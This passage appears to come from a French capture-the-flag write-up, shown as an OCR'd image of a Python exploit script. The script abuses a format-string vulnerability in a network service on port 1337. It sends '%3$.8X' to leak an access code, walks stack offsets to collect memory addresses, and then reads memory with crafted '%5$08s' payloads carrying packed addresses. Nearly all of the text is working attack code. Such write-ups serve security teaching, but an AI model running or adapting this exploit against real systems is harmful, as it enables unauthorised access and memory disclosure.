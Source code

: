 ```python
        if chr(b) in printable[:95]:
            result += chr(b)
        else:
            result += "\\x{:02X}".format(b)
    result += "'"
    return result

sock = socket.socket()
sock.connect((TARGET, 1337))

wait_until(sock, "\nACCESS CODE:")
sock.send(b"%3$.8X\n")
pattern, buff = wait_until(sock, "\nACCESS CODE:")
search = CODE_REGEX.search(buff.decode())

if not search:
    print("Can't find code in ouput '{}' !".format(buff))

code = str(int(search.group(1), 16))
sock.send(code.encode() + b"\n")

wait_until(sock, "ENTER COMMAND:")

memory_addresses = []
for i in range(1, 10):
    session = "%{}$.8X".format(i)
    sock.send(b"3\n")
    wait_until(sock, "NEW SESSION NAME:")
    sock.send(session.encode() + b"\n")
    pattern, buff = wait_until(sock, "ENTER COMMAND:")
    search = SESSION_REGEX.search(buff.decode())

    if not search:
        print("Can't find session in ouput '{}' !".format(buff))

    value = int(search.group(1), 16)
    if value > MIN_ADDR:
        memory_addresses.append(value)
    print("{} => {} {}".format(session, "0x{:08X}".format(value), hex_repr(value)))

for addr in memory_addresses:
    session = b"%5$08sAA" + struct.pack("<I", addr) + b"CCCC"
    sock.send(b"3\n")
    wait_until(sock, "NEW SESSION NAME:")
    sock.send(session)
    pattern, buff = wait_until(sock, "ENTER COMMAND:")
    data = buff.split(b"SESSION: ")[1].split(b"CCC\n  AUTH")[0]
    print(repr(data))
```

Ce qui nous donne :  
